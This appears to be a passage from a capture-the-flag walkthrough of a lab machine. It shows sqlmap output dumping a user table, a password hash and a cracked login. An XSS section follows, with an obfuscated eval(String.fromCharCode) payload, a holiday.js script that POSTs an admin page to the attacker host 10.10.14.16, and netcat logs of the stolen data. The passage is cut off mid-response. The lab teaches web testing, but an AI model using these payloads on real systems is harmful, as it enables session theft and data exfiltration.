[03:43:52] [INFO] retrieved: CREATE TABLE notes 'id INTEGER PRIMARY KEY AUTOINCREMENT,booking_id INTEGER,body TEXT,created DATETIME DEFAULT CURRENT_TIMESTAMP,approved BOOLEAN)
[03:43:52] [INFO] fetching entries for table 'notes' in database 'SQLite_masterdb'
[03:43:52] [INFO] fetching number of entries for table 'notes' in database 'SQLite_masterdb'
[03:43:52] [INFO] retrieved: 0
[03:43:53] [WARNING] table 'notes' in database 'SQLite_masterdb' appears to be empty
Database: SQLite_masterdb
Table: notes
[0 entries]
+----+------------+------+---------+----------+
| id | booking_id | body | created | approved |
+----+------------+------+---------+----------+
+----+------------+------+---------+----------+

[03:43:53] [INFO] table 'SQLite_masterdb.notes' dumped to CSV file '/root/.sqlmap/output/10.10.10.25/dump/SQLite_masterdb/notes.csv'
[03:43:53] [INFO] retrieving the length of query output
[03:43:53] [INFO] retrieved: 38
[03:44:04] [INFO] retrieved: CREATE TABLE sqlite_sequence'name,seq'
[03:44:04] [WARNING] unable to enumerate the columns for table 'sqlite_sequence' in database 'SQLite_masterdb', skipping
[03:44:04] [INFO] retrieving the length of query output
[03:44:04] [INFO] retrieved: 103
[03:44:32] [INFO] retrieved: CREATE TABLE users 'id INTEGER PRIMARY KEY AUTOINCREMENT,username TEXT,password TEXT,active TINYINT'1))
[03:44:32] [INFO] fetching entries for table 'users' in database 'SQLite_masterdb'
[03:44:32] [INFO] fetching number of entries for table 'users' in database 'SQLite_masterdb'
[03:44:32] [INFO] retrieved: 1
[03:44:33] [INFO] retrieving the length of query output
[03:44:33] [INFO] retrieved: 1
[03:44:34] [INFO] retrieved: 1
[03:44:35] [INFO] retrieving the length of query output
[03:44:35] [INFO] retrieved: 1
[03:44:36] [INFO] retrieved: 1
[03:44:38] [INFO] retrieving the length of query output
[03:44:38] [INFO] retrieved: 32
[03:44:48] [INFO] retrieved: fdc8cd4cff2c19e0d1022e78481ddf36
[03:44:48] [INFO] retrieving the length of query output
[03:44:48] [INFO] retrieved: 5
[03:44:52] [INFO] retrieved: RickA
[03:44:52] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N]
do you want to crack them via a dictionary-based attack? [Y/n/q]
[03:44:56] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[03:45:02] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N]
[03:45:04] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[03:45:04] [INFO] starting 4 processes
[03:45:12] [WARNING] no clear password(s) found
Database: SQLite_masterdb
Table: users
[1 entry]
+----+--------+----------+----------------------------------+
| id | active | username | password                         |
+----+--------+----------+----------------------------------+
| 1  | 1      | RickA    | fdc8cd4cff2c19e0d1022e78481ddf36 |
+----+--------+----------+----------------------------------+

[03:45:12] [INFO] table 'SQLite_masterdb.users' dumped to CSV file '/root/.sqlmap/output/10.10.10.25/dump/SQLite_masterdb/users.csv'
[03:45:12] [INFO] retrieving the length of query output
[03:45:12] [INFO] retrieved: 54
[03:45:28] [INFO] retrieved: CREATE TABLE sessions 'sid PRIMARY KEY, expired, sess'
[03:45:28] [WARNING] unable to enumerate the columns for table 'sessions' in database 'SQLite_masterdb', skipping
[03:45:28] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.25'

[*] shutting down at 03:45:28

root@kali:~/holiday#
```


```
RickA
nevergonnagiveyouup
```





###### XSS

```sh
root@kali:~/holiday# ipython
Python 2.7.15rc1 (default, Apr 15 2018, 21:51:34)
Type "copyright", "credits" or "license" for more information.

IPython 5.5.0 -- An enhanced Interactive Python.
?         -> Introduction and overview of IPython's features.
%quickref -> Quick reference.
help      -> Python's own help system.
object?   -> Details about 'object', use 'object??' for extra details.

In [1]: ord("A")
Out[1]: 65

In [2]: def createEncodedJS(ascii):
   ...:     decimal_string = ""
   ...:     for char in ascii:
   ...:         decimal_string += str(ord(char)) + ","
   ...:     return decimal_string[:-1]

In [3]: createEncodedJS("abc")
Out[3]: '97,98,99'

In [4]: createEncodedJS("""document.write('<script src="http://10.10.14.16/holiday.js"></script>');""")
Out[4]: '100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,49,54,47,104,111,108,105,100,97,121,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59'

In [5]:
```

```js
<script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,49,54,47,104,111,108,105,100,97,121,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59));</script>">
```



```sh
root@kali:~/holiday# nc -nlvp 80
listening on [any] 80 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.25] 47250
GET /holiday.js HTTP/1.1
Accept: */*
Referer: http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,*
Host: 10.10.14.16

root@kali:~/holiday#
```

`holiday.js`

```JavaScript
var req1 = new XMLHttpRequest();
req1.open('GET', 'http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65', false);
req1.send();
var response = req1.responseText;
var req2 = new XMLHttpRequest();
var params = "cookie=" + encodeURIComponent(response);
req2.open('POST', 'http://10.10.14.16:8000/sample', true);
req2.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
req2.send(params);
```


```sh
root@kali:~/holiday# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.25 - - [15/Jun/2018 04:27:33] "GET /holiday.js HTTP/1.1" 200 -
```

```sh
root@kali:~/holiday# nc -nlvp 8000
listening on [any] 8000 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.25] 53820
POST /sample HTTP/1.1
Referer: http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65
Origin: http://localhost:8000
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Content-type: application/x-www-form-urlencoded
Accept: */*
Content-Length: 21351
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,*
Host: 10.10.14.16:8000

cookie=%3C!DOCTYPE%20html%3E%0A%3Chtml%20lang%3D%22en%22%3E%0A%20%20%3Chead%3E%0A%20%20%20%20%20%20%3Cmeta%20charset%3D%22utf-8%22%3E%0A%20%20%20%20%20%20%3Cmeta%20http-equiv%3D%22X-UA-Compatible%22%20content%3D%22IE%3Dedge%22%3E%0A%20%20%20%20%20%20%3Ctitle%3EBooking%20Management%3C%2Ftitle%3E%0A%20%20%20%20%20%20%3Cmeta%20name%3D%22viewport%22%20content%3D%22width%3Ddevice-width%2C%20minimum-scale%3D1.0%2C%20maximum-scale%3D1.0%22%3E%0A%20%20%20%20%20%20%3Clink%20rel%3D%22stylesheet%22%20type%3D%22text%2Fcss%22%20href%3D%22%2Fcss%2Fbootstrap.min.css%22%20%2F%3E%0A%20%20%20%20%20%20%3Clink%20rel%3D%22stylesheet%22%20type%3D%22text%2Fcss%22%20href%3D%22%2Fcss%2Fmain.min.css%22%20%2F%3E%0A%20%20%20%20%20%20%3Cscript%20src%3D%22%2Fjs%2Fjquery.min.js%22%3E%3C%2Fscript%3E%0A%20%20%20%20%20%20%3Cscript%20src%3D%22%2Fjs%2Fbootstrap.min.js%22%3E%3C%2Fscript%3E%0A%20%20%3C%2Fhead%3E%0A%0A%20%20%3Cbody%3E%0A%20%20%20%20%20%20%3Cdiv%20id%3D%22st-container%22%20class%3D%22st-container%22%3E%0A%20%20%20%20%20%20%3Cdiv%20class%3D%22st-content%22%3E%0A%20%20%20%20%20%20%20%20%20%20%3Cp%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cnav%20class%3D%22navbar%20navbar-inverse%20navbar-static-top%20hidden-print%22%20role%3D%22navigation%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22container%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ca%20class%3D%22navbar-brand%20navbar-hx-logo%22%20href%3D%22http%3A%2F%2Fholiday.htb%22%20data-hxtrack-name%3D%22navbar-logo%22%3EBooking%20Management%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cul%20class%3D%22nav%20navbar-nav%20navbar-right%20pull-right%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cli%20class%3D%22dropdown%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ca%20href%3D%22%23%22%20class%3D%22dropdown-toggle%20text-right%22%20data-hxtrack-name%3D%22navbar-phone-numbers%22%20data-toggle%3D%22dropdown%22%3E%3Cspan%20class%3D%22hidden-xs%22%3E%3Ci%20class%3D%22fa%20fa-phone%22%3E%3C%2Fi%3E%20Freephone%200800%20111%204645%3C%2Fspan%3E%3Cspan%20class%3D%22visible-xs%22%3EContact%20us%3C%2Fspan%3E%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22dropdown-menu%20navbar-phone-numbers%20text-right%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22panel%20panel-default%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22panel-heading%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20Call%20%3Cspan%20class%3D%22freeNumber%22%3E0800%20111%204645%3C%2Fspan%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22panel-body%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cp%3E%3Cstrong%3EMobiles%20call%3C%2Fstrong%3E%3Cbr%3E020%207930%209000%3C%2Fp%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cp%3E%3Cstrong%3EMonday%20to%20Friday%3C%2Fstrong%3E%3Cbr%3E08.00%20to%2023.00%3C%2Fp%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cp%3E%3Cstrong%3EWeekends%3C%2Fstrong%3E%3Cbr%3E08.30%20to%2020.00%3C%2Fp%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fli%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Ful%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fnav%3E%0A%20%20%20%20%20%20%20%20%20%20%3C%2Fp%3E%0A%20%20%20%20%20%20%20%20%20%20%3Cmain%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22container%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ch1%3EBooking%20details%3C%2Fh1%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C!--%20Nav%20tabs%20--%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cul%20class%3D%22nav%20nav-tabs%20hidden-print%22%20role%3D%22tablist%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cli%20class%3D%22active%22%3E%3Ca%20href%3D%22%23view%22%20aria-controls%3D%22view%22%20role%3D%22tab%22%20data-toggle%3D%22tab%22%3E%3Ci%20class%3D%22hidden-xs%20fa%20fa-eye%20fa-fw%22%3E%3C%2Fi%3E%20View%3C%2Fa%3E%3C%2Fli%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cli%3E%3Ca%20href%3D%22%23notes%22%20aria-controls%3D%22notes%22%20role%3D%22tab%22%20data-toggle%3D%22tab%22%3E%3Ci%20class%3D%22hidden-xs%20fa%20fa-sticky-note-o%20fa-fw%22%3E%3C%2Fi%3E%20Notes%3C%2Fa%3E%3C%2Fli%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cli%3E%3Ca%20href%3D%22%23admin%22%20aria-controls%3D%22admin%22%20role%3D%22tab%22%20data-toggle%3D%22tab%22%3E%3Ci%20class%3D%22hidden-xs%20fa%20fa-lock%20fa-fw%22%3E%3C%2Fi%3E%20Admin%3C%2Fa%3E%3C%2Fli%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Ful%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C!--%20Tab%20panes%20--%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22tab-content%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C!--%20Template%20--%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20role%3D%22tabpanel%22%20class%3D%22tab-pane%20active%22%20id%3D%22view%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22panel%20panel-default%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22panel-body%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cform%20class%3D%22form-horizontal%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22form-group%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Clabel%20class%3D%22col-sm-4%20control-label%22%3ELead%20passenger%3C%2Flabel%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22col-sm-4%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cp%20class%3D%22form-control-static%22%3EOrland%20Wilkinson%3C%2Fp%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22form-group%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Clabel%20class%3D%22col-sm-4%20control-label%22%3EBooking%20Ref%3C%2Flabel%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22col-sm-8%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cp%20class%3D%22form-control-static%22%3E12ZL1%3C%2Fp%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22form-group%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Clabel%20class%3D%22col-sm-4%20control-label%22%3EEmail%3C%2Flabel%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22col-sm-8%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cp%20class%3D%22form-control-static%22%3EAliza91%40yahoo.com%3C%2Fp%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22form-group%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Clabel%20class%3D%22col-sm-4%20control-label%22%3ETotal%20Paid%3C%2Flabel%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22col-sm-8%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cp%20class%3D%22form-control-static%22%3E%C2%A353%3C%2Fp%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22form-group%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Clabel%20class%3D%22col-sm-4%20control-label%22%3EFrom%3C%2Flabel%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22col-sm-8%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cp%20class%3D%22form-control-static%22%3ESunday%2C%20April%201st%202018%2C%202%3A48%3A20%20am%3C%2Fp%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22form-group%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Clabel%20class%3D%22col-sm-4%20control-label%22%3Eto%3C%2Flabel%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22col-sm-8%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cp%20class%3D%22form-control-static%22%3EFriday%2C%20May%204th%202018%2C%202%3A35%3A15%20am%3C%2Fp%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22form-group%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Clabel%20class%3D%22col-sm-4%20control-label%22%3EFlying%20from%3C%2Flabel%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22col-sm-8%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cp%20class%3D%22form-control-static%22%3EGutkowskiberg%3C%2Fp%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fform%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20role%3D%22tabpanel%22%20class%3D%22tab-pane%22%20id%3D%22notes%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22panel%20panel-default%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class%3D%22panel-body%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ch2%3ENotes%3C%2Fh2%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Chr%2F%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%26lt%3Bimg%20src%26%23x3D%3Bx%2F%26gt%3B%26lt%3Bscript%26gt%3Beval(String.fromCharCode(100%2C111%2C99%2C117%2C109%2C101%2C110%2C116%2C46%2C119%2C114%2C105%2C116%2C101%2C40%2C39%2C60%2C115%2C99%2C114%2C105%2C112%2C116%2C32%2C115%2C114%2C99%2C61%2C34%2C104%2C116%2C116%2C112%2C58%2C47%2C47%2C49%2C48%2C46%2C49%2C48%2C46%2C49%2C52%2C46%2C49%2C54%2C47%2C104%2C111%2C108%2C105%2C100%2C97%2C121%2C46%2C106%2C115%2C34%2C62%2C60%2C47%2C115%2C99%2C114%2C105%2C112%2C116%2C62%2C39%2C41%2C59))%3B%26lt%3B%2Fscript%26gt%3B%26gt%3B%3Cbr%2F%3E%3Cbr%2F%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Csmall%3EFriday%2C%20June%2015th%202018%2C%209%3A11%3A57%20am%3C%2Fsmall%3E%3Cbr%2F%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Chr%2F%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%26lt%3Bimg%20src%26%23x3D%3Bx%2F%26gt%3B%26lt%3Bscript%26gt%3Beval(String.fromCharCode(100%2C111%2C99%2C117%2C109%2C101%2C110%2C116%2C46%2C119%2C114%2C105%2C116%2C101%2C40%2C39%2C60%2C115%2C99%2C114%2C105%2C112%2C116%2C32%2C115%2C114%2C99%2C61%2C34%2C104%2C116%2C116%2C112%2C58%2C47%2C47%2C49%2C48%2C46%2C49%2C48%2C46%2C49%2C52%2C46%2C49%2C54%2C47%2C104%2C111%2C108%2C105%2C100%2C97%2C121%2C46%2C106%2C115%2C34%2C62%2C60%2C47%2C115%2C99%2C114%2C105%2C112%2C116%2C62%2C39%2C41%2C59))%3B%26lt%3B%2Fscript%26gt%3B%26gt%3B%3Cbr%2F%3E%3Cbr%2F%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Csmall%3EFriday%2C%20June%2015th%202018%2C%209%3A26%3A02%20am%3C%2Fsmall%3E%3Cbr%2F%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ch2%3EAdd%20note%3C%2Fh2%3E%0A%20%20%20%2